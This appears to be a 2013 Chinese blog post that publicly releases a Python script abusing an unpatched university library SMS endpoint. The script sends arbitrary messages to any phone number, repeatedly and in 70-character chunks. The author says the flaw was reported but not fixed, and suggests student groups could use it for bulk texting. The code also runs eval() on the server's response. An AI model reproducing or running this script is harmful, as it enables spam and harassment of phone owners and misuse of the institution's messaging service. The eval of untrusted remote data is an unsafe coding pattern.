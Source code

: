 title:又能喝茶了
date:2013-03-15-18-21
---
图书馆不是可以发送图书位置的短信到手机么。。问题就出在这里，随便向任意号码发送任意内容任意次。我已经反映问题了。但仍未修复。果断开源..

<pre>
import requests
import time
import random

def sendsms(phone,msg):
    s=requests.session()

    headers={'Accept':'*/*',
    'Accept-Charset':'GBK,utf-8;q=0.7,*;q=0.3',
    'Accept-Encoding':'gzip,deflate,sdch',
    'Accept-Language':'zh-CN,zh;q=0.8',
    'Cache-Control':'no-cache',
    'Connection':'keep-alive',
    'Host':'202.116.13.7',
    'Pragma':'no-cache',
    'Referer':'http://202.116.13.244/search~S1*chx?/ca5/ca5/1%2C254%2C254%2CE/frameset&FF=ca56+53+20121&1%2C1%2C/indexsort=r',
    'User-Agent':'Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.17 (KHTML, like Gecko) Chrome/24.0.1312.56 Safari/537.17',
    }

    json=s.get("http://202.116.13.7/ssms/servlet/SendSMS?jsoncallback=call&mobile=%s&msg=%s" %(phone,msg),headers=headers).text
    
    def call(msg):
       assert msg['msg']==u"短信发送成功。".encode('utf-8')
    eval(json)



def sendsmsex(phone,msg):
  print msg[:70]
  sendsms(phone,msg[:70])
  time.sleep(4)
  if len(msg)<=70:
     return
  else:
     sendsmsex(phone,msg[70:])




phone="1562512xxxx"
text=u"""
请先做自我介绍。
谈谈以往最深刻的活动经历，遇到何种问题，如何解决？
进入大学，计划在大学期间学到什么？
为何选择网络部，期望从网络部中获得什么？
对网络部了解吗？对所应聘的部门工作有何种看法？
请简单介绍一下自己的性格？
课程安排是怎样的？
如何看待社团活动？
明天下午6:00准时到校友楼四楼招新面试，马斌、文锐组织好，吉琼、鹏振协助，我下班之后回去和你们一起，需要穿正装。明天的面试分两步：你们第一轮筛选，如果觉得合适，请他们等一段时间，我回来之后我再和他们谈谈。大家不要有太大压力，看看他们和你们合得来不，合得来就一切都可以谈。
 """

sendsmsex(phone,text)
</pre>


学校不管的话学生组织能不能利用他群发SMS呢。。
